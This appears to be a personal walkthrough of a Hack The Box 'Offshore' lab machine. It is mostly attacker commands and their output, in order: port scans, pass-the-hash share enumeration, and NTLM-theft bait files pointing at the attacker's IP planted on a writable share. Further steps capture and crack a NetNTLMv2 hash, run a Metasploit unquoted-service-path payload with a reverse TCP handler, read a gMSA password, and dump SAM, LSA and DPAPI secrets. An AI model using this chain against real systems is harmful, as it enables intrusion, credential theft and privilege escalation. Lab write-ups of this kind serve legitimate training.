







As usual RUSTSCAN is our friend for the TCP scans:

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 64 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-07-04T15:57:53+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=MS02.CLIENT.OFFSHORE.COM
| Issuer: commonName=MS02.CLIENT.OFFSHORE.COM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-03T03:18:12
| Not valid after:  2025-01-02T03:18:12
| MD5:   c693:51cd:f092:d572:5f64:3d9c:ed2c:6761
| SHA-1: 23e2:f561:45c4:f1e3:72f8:ba76:8156:d59b:5198:eee7
| -----BEGIN CERTIFICATE-----
| MIIC9DCCAdygAwIBAgIQdOgnGOBFwbBKC5AQSTcaSjANBgkqhkiG9w0BAQsFADAj
| MSEwHwYDVQQDExhNUzAyLkNMSUVOVC5PRkZTSE9SRS5DT00wHhcNMjQwNzAzMDMx
| ODEyWhcNMjUwMTAyMDMxODEyWjAjMSEwHwYDVQQDExhNUzAyLkNMSUVOVC5PRkZT
| SE9SRS5DT00wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC2smpBjOAa
| JlRW/OO5NWhV8FnORf2OmqeMyUmrqXrtEZdMI6Ym/cziUegLNYbqrgRaG0MiYtKN
| Y3cZIoE3ey+SQguybw75GgIz4rEF+S50mYN8ybKFDWoR9o7JxDIr74pjbO+XZhBC
| VGJGTSwWCPUO6NIU/7BvJEtwJ3Y9tdE1d7GQSZDd3ZCmNxiu98weGF2oNirtTDCJ
| pBwH0Q3WSsDO6WKvS7KLjO5A1FFHMwBIfYStK776jR++M0SwgoBo9cNpMePRss8J
| Jzf55O4Bk3aZO7HxVt8aOfCGYbDe8gLS4JTKEoAXuPNoPUGYHN+7FyroTHeX1XVS
| 5YCtIvfiNQ2ZAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQE
| AwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAUEX6a+K793sSU381uGic3B3vBXy4PC3V
| kSkLF4i38RS79FP1c6ZMWMyiq1OZiQtAIcp+yZo+KsYgCCgrn2hU75DTdaZAhQQz
| Bjfo2BiTLoWa1D+Rpi4ItwIhML4215hdwXKQFQAsBiTDGAurpFsxsCKUThsQmYXT
| TCZc35tb6UphMJjGBEN1GBfr3t0uF9bZDXjbiHaLst3Rt6chCtt+p6ANXNMimc07
| ixaxZxL42pcJEqNHDelkF7UqqoRU2WMnjqArs3K+THK3/P7rq08zWTyE1TJhbDwW
| i6LbjF3T7cPsPyVQVyhAqYx0Sebp2M+yUbZD9yuE/u2dXi+FktzMOw==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: CLIENT
|   NetBIOS_Domain_Name: CLIENT
|   NetBIOS_Computer_Name: MS02
|   DNS_Domain_Name: CLIENT.OFFSHORE.COM
|   DNS_Computer_Name: MS02.CLIENT.OFFSHORE.COM
|   DNS_Tree_Name: CLIENT.OFFSHORE.COM
|   Product_Version: 10.0.14393
|_  System_Time: 2024-07-04T15:57:13+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/4%OT=135%CT=%CU=%PV=Y%G=N%TM=6686C67E%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

And NMAP for the UDP ones:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# nmap -F -sU 172.16.4.131
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 17:52 CEST
Nmap scan report for 172.16.4.131
Host is up (0.00016s latency).
All 100 scanned ports on 172.16.4.131 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 20.12 seconds
```

&nbsp;

# SMB

What can we see with our creds from the other domain ADMIN?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec smb 172.16.4.31 -u Administrator -H f2594c9e60abf7e28e7601db343a7e24 -d 'ADMIN.OFFSHORE.COM' --shares
SMB         172.16.4.31     445    MS02             [*] Windows Server 2016 Standard 14393 x64 (name:MS02) (domain:CLIENT.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.4.31     445    MS02             [+] ADMIN.OFFSHORE.COM\Administrator:f2594c9e60abf7e28e7601db343a7e24 
SMB         172.16.4.31     445    MS02             [*] Enumerated shares
SMB         172.16.4.31     445    MS02             Share           Permissions     Remark
SMB         172.16.4.31     445    MS02             -----           -----------     ------
SMB         172.16.4.31     445    MS02             ADMIN$                          Remote Admin
SMB         172.16.4.31     445    MS02             Banking_Data                    
SMB         172.16.4.31     445    MS02             C$                              Default share
SMB         172.16.4.31     445    MS02             IPC$                            Remote IPC
```

I see some banking data with no apparent access, but what if we use the same account that we saw bankwault:

```
ADMIN.OFFSHORE.COM\bankvault:3113:aad3b435b51404eeaad3b435b51404ee:0ce1cb01ade331cdba32d0e1fba338a1:::
```

Nice now we can indeed read it:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec smb 172.16.4.31 -u bankvault -H 0ce1cb01ade331cdba32d0e1fba338a1 -d 'ADMIN.OFFSHORE.COM' --shares
SMB         172.16.4.31     445    MS02             [*] Windows Server 2016 Standard 14393 x64 (name:MS02) (domain:CLIENT.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.4.31     445    MS02             [+] ADMIN.OFFSHORE.COM\bankvault:0ce1cb01ade331cdba32d0e1fba338a1 
SMB         172.16.4.31     445    MS02             [*] Enumerated shares
SMB         172.16.4.31     445    MS02             Share           Permissions     Remark
SMB         172.16.4.31     445    MS02             -----           -----------     ------
SMB         172.16.4.31     445    MS02             ADMIN$                          Remote Admin
SMB         172.16.4.31     445    MS02             Banking_Data    READ,WRITE      
SMB         172.16.4.31     445    MS02             C$                              Default share
SMB         172.16.4.31     445    MS02             IPC$                            Remote IPC
```

The share is void but we had write access right? that might allow us to implant a shell anyway as NTSystem:



Seems like no?



&nbsp;

# The next day

It is clear that the AD path was not a success as nor the SID History nor forging a  "Inter Realm" TGT and then requesting a TGS but it was a fail so I guess it shouldn't be so easy this time for the challenge's sake.

So yesterday was thinking again on that writable share as bankvauilt and I might try to upload some malicious files with the scope of sniffing some NTLM hashes?

I will first generate some files with `NTLM_THEFT` tool:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Tools/ntlm_theft]
└─# python3 ntlm_theft.py -g all -s 10.10.14.3 -f bankvault 
Created: bankvault/bankvault.scf (BROWSE TO FOLDER)
Created: bankvault/bankvault-(url).url (BROWSE TO FOLDER)
Created: bankvault/bankvault-(icon).url (BROWSE TO FOLDER)
Created: bankvault/bankvault.lnk (BROWSE TO FOLDER)
Created: bankvault/bankvault.rtf (OPEN)
Created: bankvault/bankvault-(stylesheet).xml (OPEN)
Created: bankvault/bankvault-(fulldocx).xml (OPEN)
Created: bankvault/bankvault.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: bankvault/bankvault-(includepicture).docx (OPEN)
Created: bankvault/bankvault-(remotetemplate).docx (OPEN)
Created: bankvault/bankvault-(frameset).docx (OPEN)
Created: bankvault/bankvault-(externalcell).xlsx (OPEN)
Created: bankvault/bankvault.wax (OPEN)
Created: bankvault/bankvault.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: bankvault/bankvault.asx (OPEN)
Created: bankvault/bankvault.jnlp (OPEN)
Created: bankvault/bankvault.application (DOWNLOAD AND OPEN)
Created: bankvault/bankvault.pdf (OPEN AND ALLOW)
Created: bankvault/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: bankvault/Autorun.inf (BROWSE TO FOLDER)
Created: bankvault/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

And now we can see that `bankvalut` is available in both domains and I found out as well that using the credentials of the other domain I was able to reach the strange share.



Specificically the description of aone user tells us about a share that supposednly should be able to anyone and it is processing the payments atuomatically? This sound to me like a NTLM spoof or even RCE?

```
LDAP        172.16.4.5      389    DC04             offshore_adm                  2018-07-17 21:06:27 0       Banking share is opened upon login to process automatic transfers.
```

My theory could make sense as using example a DA@ADMIN.OFFSHORE.COM shows no traces of write permission on the share:



But using the Bankvault password hash from ADMIN realm works?



And uploading some files:

```
[-] [Errno 2] No such file or directory: "bankvault-(externalcell).xlsx'"
# put 'bankvault-(externalcell).xlsx'
[-] [Errno 2] No such file or directory: "'bankvault-(externalcell).xlsx'"
# put bankvault-(externalcell).xlsx
# ls
drw-rw-rw-          0  Fri Jul  5 10:45:40 2024 .
drw-rw-rw-          0  Fri Jul  5 10:45:40 2024 ..
-rw-rw-rw-         78  Fri Jul  5 10:44:43 2024 Autorun.inf
-rw-rw-rw-       5856  Fri Jul  5 10:45:40 2024 bankvault-(externalcell).xlsx
-rw-rw-rw-         84  Fri Jul  5 10:44:16 2024 bankvault.scf
# put bankvault-(frameset).docx
# put bankvault-(includepicture).docx
# ls
drw-rw-rw-          0  Fri Jul  5 10:46:16 2024 .
drw-rw-rw-          0  Fri Jul  5 10:46:16 2024 ..
-rw-rw-rw-         78  Fri Jul  5 10:44:43 2024 Autorun.inf
-rw-rw-rw-       5856  Fri Jul  5 10:45:40 2024 bankvault-(externalcell).xlsx
-rw-rw-rw-      10223  Fri Jul  5 10:46:06 2024 bankvault-(frameset).docx
-rw-rw-rw-      10216  Fri Jul  5 10:46:17 2024 bankvault-(includepicture).docx
-rw-rw-rw-         84  Fri Jul  5 10:44:16 2024 bankvault.scf
#
```

Seems like it is a success?

```
[+] Listening for events...

[!] Error starting SSL server on port 443, check permissions or other servers running.
[SMB] NTLMv2-SSP Client   : 10.10.110.3
[SMB] NTLMv2-SSP Username : CLIENT\offshore_adm
[SMB] NTLMv2-SSP Hash     : offshore_adm::CLIENT:3fc2e4b93e4d9223:63315267A47AA8D666E7AF7D9CD232D1:010100000000000000EF323FC6CEDA019146647C16C6CD8C00000000020008005A0035003900340001001E00570049004E002D004E0034003200460048004A005500570048003400580004003400570049004E002D004E0034003200460048004A00550057004800340058002E005A003500390034002E004C004F00430041004C00030014005A003500390034002E004C004F00430041004C00050014005A003500390034002E004C004F00430041004C000700080000EF323FC6CEDA01060004000200000008003000300000000000000000000000002000007191DED7BC89C85FBFA0BE077B48B49704E13E555187704B71239F7CCFA31CB90A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0033000000000000000000
[*] Skipping previously captured hash for CLIENT\offshore_adm
[*] Skipping previously captured hash for CLIENT\offshore_adm
[*] Skipping previously captured hash for CLIENT\offshore_adm
[*] Skipping previously captured hash for CLIENT\offshore_adm
[*] Skipping previously captured hash for CLIENT\offshore_adm
```

Now can we crack it? Nice we assured some credentials:

```
OFFSHORE_ADM::CLIENT:3fc2e4b93e4d9223:63315267a47aa8d666e7af7d9cd232d1:010100000000000000ef323fc6ceda019146647c16c6cd8c00000000020008005a0035003900340001001e00570049004e002d004e0034003200460048004a005500570048003400580004003400570049004e002d004e0034003200460048004a00550057004800340058002e005a003500390034002e004c004f00430041004c00030014005a003500390034002e004c004f00430041004c00050014005a003500390034002e004c004f00430041004c000700080000ef323fc6ceda01060004000200000008003000300000000000000000000000002000007191ded7bc89c85fbfa0be077b48b49704e13e555187704b71239f7ccfa31cb90a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0033000000000000000000:Banker!123
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: OFFSHORE_ADM::CLIENT:3fc2e4b93e4d9223:63315267a47aa...000000
Time.Started.....: Fri Jul  5 10:48:34 2024 (2 secs)
Time.Estimated...: Fri Jul  5 10:48:36 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4966.8 kH/s (2.02ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 11370496/14344385 (79.27%)
Rejected.........: 0/11370496 (0.00%)
Restore.Point....: 11354112/14344385 (79.15%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Bochito -> Baddygoodlalala
Hardware.Mon.#1..: Temp: 83c Util: 70%

Started: Fri Jul  5 10:48:15 2024
Stopped: Fri Jul  5 10:48:37 2024
```

For the AD analysis I will use the DC04 page.

These credentials seems allowing me to RDP to this machine:



&nbsp;

# Privilege Explotation

And logging into the machine via RDP show like we are admin already on the machine?

```
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/29/2018   3:51 AM             23 flag.txt


PS C:\Users\Administrator\Desktop> cat .\flag.txt
OFFSHORE{th3_fin@l_h0p}
PS C:\Users\Administrator\Desktop>
```

Now we need to find a way to get to admins, and seems like the defeder is not active which is a good sign:



I will upload `Powerup.ps1` and seems like we might have a hijack path possible via custom application?

```
PS C:\Temp> Import-Module .\PowerUp.ps1
PS C:\Temp> Invoke-AllChecks


ServiceName    : Financial calculator
Path           : C:\Users\bankvault\Documents\Financial Calculator\finance.exe
ModifiablePath : @{ModifiablePath=C:\Users\bankvault\Documents; IdentityReference=CLIENT\offshore_adm; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Financial calculator' -Path <HijackPath>
CanRestart     : False
Name           : Financial calculator
Check          : Unquoted Service Paths

ModifiablePath    : C:\Users\offshore_adm\AppData\Local\Microsoft\WindowsApps
IdentityReference : CLIENT\offshore_adm
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\offshore_adm\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\offshore_adm\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\offshore_adm\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

DefaultDomainName    : CLIENT
DefaultUserName      : offshore_adm
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons
```

Now the issue here is that we can't restart the service:

&nbsp;

```
msf6 exploit(windows/local/unquoted_service_path) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Finding a vulnerable service...
[*]       Placing C:\Users\bankvault\Documents\Financial.exe for Financial calculator
[*]       Attempting to write 15872 bytes to C:\Users\bankvault\Documents\Financial.exe...
[+]       Successfully wrote payload
[*] [Financial calculator] Restarting service
[-] [Financial calculator] Restarting service failed: Could not open service. OpenServiceA error: FormatMessage failed to retrieve the error.
[-]       Unable to restart service. System reboot or an admin restarting the service is required. Payload left on disk!!!
[*] Waiting 303 seconds for shell to arrive
```

But then I uploaded winpeas and found out that the strange service acccount is part of the local administrators.this makes our life much easier indeed:

```
[+] ADMINISTRATORS GROUPS
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
cleaner
CLIENT\Domain Admins
CLIENT\svc_client_sec$
The command completed successfully.
```

Let's obtain it's password: https://github.com/micahvandeusen/gMSADumper

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Tools/gMSADumper]
└─# python3 gMSADumper.py -d 'CLIENT.OFFSHORE.COM' -u 'OFFSHORE_ADM' -p 'Banker!123' -l DC04.CLIENT.OFFSHORE.COM
Unable to start a TLS connection. Is LDAPS enabled? Only ACLs will be listed and not ms-DS-ManagedPassword.

Users or groups who can read password for svc_client_sec$:
 > Administrator
 > offshore_adm
```

Seems like I am having some issues from Linux then we need to do it from windows instead...

```
PS C:\Temp> ./gmsapasswordreader.exe --accountname 'SVC_CLIENT_SEC$'
Calculating hashes for Old Value
[*] Input username             : svc_client_sec$
[*] Input domain               : CLIENT.OFFSHORE.COM
[*] Salt                       : CLIENT.OFFSHORE.COMsvc_client_sec$
[*]       rc4_hmac             : 8CB2C275B6DF411A704C610E90AA2299
[*]       aes128_cts_hmac_sha1 : 2492BF7D7ED5A979460A3A634AFF0FFF
[*]       aes256_cts_hmac_sha1 : 6C895AE763D610FDA4684D800FF08F5F68145181F5FAF0D4ED05CECB378CA612
[*]       des_cbc_md5          : DA9B04380D5D1351

Calculating hashes for Current Value
[*] Input username             : svc_client_sec$
[*] Input domain               : CLIENT.OFFSHORE.COM
[*] Salt                       : CLIENT.OFFSHORE.COMsvc_client_sec$
[*]       rc4_hmac             : C7D4625DEB86A1306ADF200F044EEB89
[*]       aes128_cts_hmac_sha1 : F8A223A6CDB980206031E9BC9552819B
[*]       aes256_cts_hmac_sha1 : 2B723E8E647D6AA3FACECD8B25A0CC327CCF472CEFAB709B4ECC083D59296040
[*]       des_cbc_md5          : DA9B04380D5D1351

PS C:\Temp>
```

As usual we have 2 hashes one old and one new, one of them must work. But I will start by dumping the SAM hives:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# NetExec smb 172.16.4.31 -u 'SVC_CLIENT_SEC$' -H 8CB2C275B6DF411A704C610E90AA2299 --sam
SMB         172.16.4.31     445    MS02             [*] Windows Server 2016 Standard 14393 x64 (name:MS02) (domain:CLIENT.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.4.31     445    MS02             [+] CLIENT.OFFSHORE.COM\SVC_CLIENT_SEC$:8CB2C275B6DF411A704C610E90AA2299 (Pwn3d!)
SMB         172.16.4.31     445    MS02             [*] Dumping SAM hashes
SMB         172.16.4.31     445    MS02             Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
SMB         172.16.4.31     445    MS02             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.4.31     445    MS02             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.4.31     445    MS02             cleaner:1001:aad3b435b51404eeaad3b435b51404ee:6f97c037d2655e16c9dd6790b143a845:::
SMB         172.16.4.31     445    MS02             [+] Added 4 SAM hashes to the database
```

We should keep in mind that the Cleaner account is what we need for persistence!

Running a check on the LSASS.exe secrets didn't unveil juicy stuff but we have the NTLM hash of the machine object which will be useed to perform the RBCD: **CLIENT\\MS02$:aad3b435b51404eeaad3b435b51404ee:dc7a49c0c36399ae87f3de623ebab985:::**

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# NetExec smb 172.16.4.31 -u 'SVC_CLIENT_SEC$' -H 8CB2C275B6DF411A704C610E90AA2299 --lsa 
SMB         172.16.4.31     445    MS02             [*] Windows Server 2016 Standard 14393 x64 (name:MS02) (domain:CLIENT.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.4.31     445    MS02             [+] CLIENT.OFFSHORE.COM\SVC_CLIENT_SEC$:8CB2C275B6DF411A704C610E90AA2299 (Pwn3d!)
SMB         172.16.4.31     445    MS02             [+] Dumping LSA secrets
SMB         172.16.4.31     445    MS02             CLIENT.OFFSHORE.COM/Administrator:$DCC2$10240#Administrator#a5e79135295a5188c0b59831724deafc: (2023-11-03 15:34:51)
SMB         172.16.4.31     445    MS02             CLIENT.OFFSHORE.COM/offshore_adm:$DCC2$10240#offshore_adm#104071d1d2225aabb8895ac0e982d0cb: (2024-07-05 10:24:57)
SMB         172.16.4.31     445    MS02             ADMIN.OFFSHORE.COM/bankvault:$DCC2$10240#bankvault#459c1ba028a6710d67efa426aee34ecd: (2018-04-29 03:47:41)
SMB         172.16.4.31     445    MS02             CLIENT\MS02$:aes256-cts-hmac-sha1-96:a7ef524856fbf9113682384b725292dec23e54ab4e66cfdca8dd292b1bb198ae
SMB         172.16.4.31     445    MS02             CLIENT\MS02$:aes128-cts-hmac-sha1-96:2210c0c6eeba4b862de170c36d34e86b
SMB         172.16.4.31     445    MS02             CLIENT\MS02$:des-cbc-md5:8391a4ba31457cf7
SMB         172.16.4.31     445    MS02             CLIENT\MS02$:plain_password_hex:46006000600066002f0079005400660032005c006700370061004e004d002d00430042002f0064007800640020003b0078003600620055004700620057003d006f0020004800460067006300760055003900490051003a004e00400044002900640074003b0071002f00420040005f007200590038005d0043002b003b0052005d0038006e0040007a004a005300730029003f005000740035005c002100640049007100220064005400240045005b00580033003600520047004c007a004b002f0050006d0030002c003c0071006d0071004d00240070006200650028002e0068005900520033005900660053007900
SMB         172.16.4.31     445    MS02             CLIENT\MS02$:aad3b435b51404eeaad3b435b51404ee:dc7a49c0c36399ae87f3de623ebab985:::
SMB         172.16.4.31     445    MS02             CLIENT\offshore_adm:Banker!123
SMB         172.16.4.31     445    MS02             dpapi_machinekey:0x21f1ebebd4637779e011395fe0e806a35143a5d6
dpapi_userkey:0x582905143d52e565a16704a91491fc470d1a9690
SMB         172.16.4.31     445    MS02             NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         172.16.4.31     445    MS02             [+] Dumped 11 LSA secrets to /root/.nxc/logs/MS02_172.16.4.31_2024-07-05_123800.secrets and /root/.nxc/logs/MS02_172.16.4.31_2024-07-05_123800.cached
```

But the DPAPI actually showed the credentials for the clener account:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# NetExec smb 172.16.4.31 -u 'SVC_CLIENT_SEC$' -H 8CB2C275B6DF411A704C610E90AA2299 --dpapi
SMB         172.16.4.31     445    MS02             [*] Windows Server 2016 Standard 14393 x64 (name:MS02) (domain:CLIENT.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.4.31     445    MS02             [+] CLIENT.OFFSHORE.COM\SVC_CLIENT_SEC$:8CB2C275B6DF411A704C610E90AA2299 (Pwn3d!)
SMB         172.16.4.31     445    MS02             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
